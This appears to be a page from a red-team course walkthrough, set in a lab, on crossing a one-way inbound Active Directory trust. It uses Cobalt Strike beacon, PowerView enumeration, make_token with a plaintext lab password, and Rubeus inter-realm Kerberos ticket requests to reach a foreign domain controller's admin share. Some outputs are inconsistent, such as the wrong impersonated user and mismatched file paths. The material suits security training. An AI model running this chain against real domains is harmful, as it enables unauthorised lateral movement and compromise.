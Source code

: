 # One way (inbound)

**dev.cyberbotic.io** has a one-way inbound trust with **subsidiary.external**.

```
beacon> powershell Get-DomainTrust

SourceName      : dev.cyberbotic.io
TargetName      : subsidiary.external
TrustType       : WINDOWS-ACTIVE_DIRECTORY
TrustAttributes : 
TrustDirection  : Inbound
WhenCreated     : 2/19/2021 10:50:56 PM
WhenChanged     : 2/19/2021 10:50:56 PM
```

Because the trust is inbound from our perspective, it means that principals in our domain can be granted access to resources in the foreign domain. We can enumerate the foreign domain across the trust.

```
beacon> powershell Get-DomainComputer -Domain subsidiary.external -Properties DNSHostName

dnshostname           
-----------           
ad.subsidiary.external
```

`SharpHound -c DcOnly -d subsidiary.external` will also work.

`Get-DomainForeignGroupMember` will enumerate any groups that contain users outside of its domain and return its members.

```
beacon> powershell Get-DomainForeignGroupMember -Domain subsidiary.external

GroupDomain             : subsidiary.external
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=subsidiary,DC=external
MemberDomain            : subsidiary.external
MemberName              : S-1-5-21-3263068140-2042698922-2891547269-1133
MemberDistinguishedName : CN=S-1-5-21-3263068140-2042698922-2891547269-1133,CN=ForeignSecurityPrincipals,DC=subsidiary,
                          DC=external
```

This output shows that there's a member of the domain's built-in Administrators group who is not part of subsidiary.external. The **MemberName** field contains a SID that can be resolved in our current domain.

```
beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1133
DEV\Subsidiary Admins
```

If this is confusing, this is how it looks from the perspective of the subsidiary.external's domain controller.

![](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-trusts/subsidiary-foreign-group-member.png)

`Get-NetLocalGroupMember` can enumerate the local group membership of a machine. This shows that `DEV\Subsidiary Admins` is a member of the local Administrators group on the domain controller.

```
beacon> powershell Get-NetLocalGroupMember -ComputerName ad.subsidiary.external

ComputerName : ad.subsidiary.external
GroupName    : Administrators
MemberName   : DEV\Subsidiary Admins
SID          : S-1-5-21-3263068140-2042698922-2891547269-1133
IsGroup      : True
IsDomain     : True
```

This is a slightly contrived example - you may also enumerate where foreign groups and/or users have been assigned local admin access via Restricted Group by enumerating the GPOs in the foreign domain.

To hop the trust, we need to impersonate a member of this domain group. If you can get clear text credentials, `make_token` is the most straight forward method.

```
beacon> powershell Get-DomainGroupMember -Identity "Subsidiary Admins" | select MemberName

MemberName
----------
jadams

beacon> make_token DEV\jadams TrustNo1
[+] Impersonated DEV\bfarmer

beacon> ls \\ad.subsidiary.external\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     03/11/2021 18:00:26   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 22:51:50   System Volume Information
          dir     02/17/2021 18:50:04   Users
          dir     02/19/2021 22:34:47   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 384mb    fil     03/16/2021 10:48:25   pagefile.sys
```

If you only have the user's RC4/AES keys, we can still request Kerberos tickets with Rubeus but it's more involved. We need an inter-realm key which Rubeus won't produce for us automatically, so we have to do it manually.

First, we need a TGT for the principal in question. This TGT will come from the current domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jadams /domain:dev.cyberbotic.io /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap

[*] Action: Ask TGT
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Using aes256-cts-hmac_sha1 hash: 70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jadams'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFdD [...snip...] MuSU8=

  ServiceName           :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:00:28 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  3/23/2021 1:00:28 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  mnuk66R9/j0cnmZczy8ACxBfn5VcZ5pFubm3tI79KZ4=
```

Next, request a referral ticket from the current domain, for the target domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:krbtgt/subsidiary.external /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFdD[...snip...]MuSU8= /nowrap

[*] Action: Ask TGS
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'krbtgt/subsidiary.external'
[+] TGS request successful!
[*] base64(ticket.kirbi):

      doIFMT [...snip...] 5BTA==

  ServiceName           :  krbtgt/SUBSIDIARY.EXTERNAL
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:02:06 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  1/1/0001 12:00:00 AM
  Flags                 :  name_canonicalize, pre_authent, forwardable
  KeyType               :  rc4-hmac
  Base64(key)           :  O7B/KR3+DvhlpY6qwrTlHg==
```

&#x20; Notice how this inter-realm ticket is of type `rc4_hmac` even though our TGT was `aes256_cts_hmac_sha1`. This is the default configuration unless AES has been specifically configured on the trust, so this is not necessary "bad OPSEC".

Finally, use this inter-realm TGT to request a TGS in the target domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:cifs/ad.subsidiary.external /domain:ad.subsidiary.external /dc:ad.subsidiary.external /ticket:doIFMT[...snip...]5BTA== /nowrap

[*] Action: Ask TGS
[*] Using domain controller: ad.subsidiary.external (10.10.14.55)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/ad.subsidiary.external'
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFsD [...snip...] JuYWw=

  ServiceName           :  cifs/ad.subsidiary.external
  ServiceRealm          :  SUBSIDIARY.EXTERNAL
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:08:52 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  1/1/0001 12:00:00 AM
  Flags                 :  name_canonicalize, ok_as_delegate, pre_authent, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  HPmz324aewyZ6El4LGoVEksQEvkI3eoSiy7gAlgEXbU=
```

Write this base64 encoded ticket to a file on your machine.

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\subsidiary.kirbi", [System.Convert]::FromBase64String("doIFiD [...snip...] 5hbA=="))
```

Create a sacrificial logon session and import the ticket.

```
beacon> make_token DEV\jadams FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Daniel\Desktop\subsidiary.kirbi
beacon> ls \\ad.subsidiary.external\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 10:03:50   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/16/2021 12:15:11   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 22:51:50   System Volume Information
          dir     05/16/2021 11:58:30   Users
          dir     05/16/2021 11:31:57   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 512mb    fil     05/25/2021 08:39:47   pagefile.sys

 beacon> rev2self
```

Foreign Principals can also have DACL abuse primitives, where `DEV\Subsidiary Admins` could have abusable DACLs on principals within the `subsidiary.external` domain.
